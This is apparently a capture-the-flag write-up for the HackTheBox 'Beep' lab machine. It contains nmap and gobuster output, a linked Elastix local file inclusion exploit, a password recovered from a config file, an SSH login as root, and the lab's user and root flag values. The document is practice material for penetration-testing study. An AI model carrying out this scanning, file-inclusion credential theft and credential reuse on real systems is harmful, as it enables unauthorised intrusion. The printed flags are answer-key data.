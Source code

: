 ---
layout: post
title: HackTheBox Beep (10.10.10.7) Writeup
description: >
  Hackthebox Beep Writeup
image: /assets/img/beep.png

**NMAP:**
```
root@37f72653a832:/# nmap -sC -sV -T4 -p- 10.10.10.7
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-15 00:58 UTC
Stats: 0:03:20 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 01:02 (0:00:00 remaining)
Nmap scan report for 10.10.10.7
Host is up (0.024s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) APOP STLS PIPELINING USER RESP-CODES UIDL AUTH-RESP-CODE EXPIRE(NEVER) LOGIN-DELAY(0) TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed CHILDREN RIGHTS=kxte UNSELECT QUOTA OK RENAME X-NETSCAPE ACL LISTEXT BINARY IMAP4rev1 IDLE ATOMIC CONDSTORE CATENATE THREAD=REFERENCES IMAP4 ID URLAUTHA0001
LITERAL+ STARTTLS THREAD=ORDEREDSUBJECT SORT=MODSEQ SORT MAILBOX-REFERRALS MULTIAPPEND NAMESPACE UIDPLUS NO ANNOTATEMORE LIST-SUBSCRIBED
443/tcp   open  ssl/https?
|_ssl-date: 2020-05-15T01:03:54+00:00; +1m09s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus
imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1m08s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 392.16 seconds
```
**PORT 443:**

Gobuster:
```
/index.php (Status: 200)
/images (Status: 301)
/help (Status: 301)
/register.php (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/var (Status: 301)
/panel (Status: 301)
```
Homepage:
![b4e3e46f315a80fd3f194e529c588351.png](../../resources/4c5063c1c39b4e4faafd6472bb29dec2.png)

Checking for exploits related to elastix there are a few but I will use [this LFI epxloit](https://www.exploit-db.com/exploits/37637)

That reveals a configuration file with some credentials in it

![cd291de520f7c4075d47776ce4998ae1.png](../../resources/b3b68c9b6f4f453fbf1485f41f653ccf.png)

Using the credentials `admin;jEhdIekWmdjE` I can ssh in as the root user.
```
root@37f72653a832:/# ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password:
Last login: Fri May 15 04:33:29 2020 from 10.10.14.37

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]#
```
From here I can read the `user.txt` and `root.txt` flags
```
[root@beep ~]# cat /home/fanis/user.txt
aeff3ddf0c765c2677b94715cffa73ac
[root@beep ~]# cat root.txt
d88e016123842106982acce0aaf453f0
```
